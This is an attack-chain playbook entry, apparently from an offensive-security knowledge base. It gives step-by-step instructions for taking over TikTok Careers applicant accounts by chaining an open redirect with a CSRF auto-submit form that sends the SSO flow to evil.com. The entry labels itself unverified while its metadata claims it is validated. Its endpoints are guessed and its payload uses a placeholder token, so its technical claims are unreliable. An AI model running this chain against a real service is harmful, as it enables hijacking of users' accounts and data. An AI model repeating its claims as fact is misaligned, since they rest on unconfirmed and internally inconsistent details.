

---
tags:
  - csrf
  - open-redirect
  - sso
  - account-takeover
  - web-vulnerability
type: attack_chain
tools: []
tactics:
  - '[[Initial Access]]'
  - '[[Persistence]]'
verified: false
platforms:
  - Web
submitted: true
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Exploit-Open-Redirect-in-SSO-Flow]]'
  - '[[procedures/Exploit-CSRF-in-SSO-for-Account-Takeover]]'
step_count: 2
techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[Drive-by Compromise]]'
updated_at: '2025-12-14T17:33:34.456Z'
description: >-
  Chained CSRF and open redirect vulnerabilities in the TikTok Careers portal
  SSO flow enable unauthorized account takeover by hijacking the authentication
  process without proper token validation.
id: c114c093-bb51-426c-bcb6-2a40ac4305e7
validated: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Persistence]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[Drive-by Compromise]]'
---
# Account Takeover via CSRF and Open Redirect in TikTok Careers SSO

Multi-stage attack chain demonstrating a complete attack workflow exploiting vulnerabilities in the TikTok Careers portal's single sign-on (SSO) process to achieve account takeover.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 2 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization

## Prerequisites & Requirements

### Required Tools

- Browser with developer tools (e.g., Chrome DevTools)
- Proxy tool like Burp Suite for intercepting requests (optional but recommended for testing)

### Target Environment

- Web platform
- Single Sign-On (SSO) service in the TikTok Careers portal
- No specific ports required; accessible via HTTPS

### Initial Access Requirements

- Victim must be an authenticated applicant or tricked into visiting a malicious page
- Attacker needs a phishing vector (e.g., email link) to deliver the exploit
- No prior credentials needed for the attacker

## Detailed Attack Procedures

### Step 1: Identify and Exploit Open Redirect
procedure: [[procedures/Exploit-Open-Redirect-in-SSO-Flow]]

**Objective**: Locate the open redirect vulnerability in the SSO flow to facilitate phishing and redirect users to attacker-controlled sites without validation.

**Instructions**: Navigate to the TikTok Careers portal SSO login page. Inspect the redirect parameters in the authentication URL, typically something like `https://careers.tiktok.com/sso/redirect?return_url=...`. Test by appending an attacker-controlled URL (e.g., `https://evil.com`) to the `return_url` parameter. Submit the form or follow the link to confirm the server redirects without validating the domain.

**Expected Output**: The browser redirects to the attacker-specified URL, confirming the open redirect.

**Success Indicators**:
- Unvalidated redirect to external domain
- No error or validation check on redirect target

### Step 2: Chain CSRF for Account Takeover
procedure: [[procedures/Exploit-CSRF-in-SSO-for-Account-Takeover]]

**Objective**: Leverage the open redirect to deliver a CSRF payload that performs unauthorized actions in the SSO flow, hijacking the victim's authentication and enabling account takeover.

**Instructions**: Craft a malicious HTML page hosted on the attacker-controlled domain (from Step 1) containing an auto-submitting form targeting the SSO endpoint, e.g., `<form action="https://careers.tiktok.com/sso/auth" method="POST"><input type="hidden" name="token" value="fake"><input type="hidden" name="redirect" value="https://evil.com/callback"></form>`. Use the open redirect to lure the victim to this page while they are authenticated in another tab. The lack of CSRF tokens allows the form to process, binding the victim's session to the attacker's control and allowing unauthorized actions like changing credentials or accessing applicant data.

**Expected Output**: Victim's account is taken over; attacker can log in as the victim or perform actions on their behalf.

**Success Indicators**:
- Unauthorized POST request succeeds without CSRF token
- Attacker gains access to victim's SSO session or account

## Attack Chain Summary

### Key Achievements

1. Bypassed SSO validation using open redirect to control post-authentication flow
2. Exploited missing CSRF protection to execute unauthorized actions as the victim
3. Achieved full account takeover for applicants without impacting main TikTok site

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]] Exploit Public-Facing Application
- [[Drive-by Compromise]] Drive-by Compromise

### MITRE ATT&CK Tactics

- [[Initial Access]] Initial Access
- [[Persistence]] Persistence

---
*Last updated: 2023-10-01T00:00:00Z*
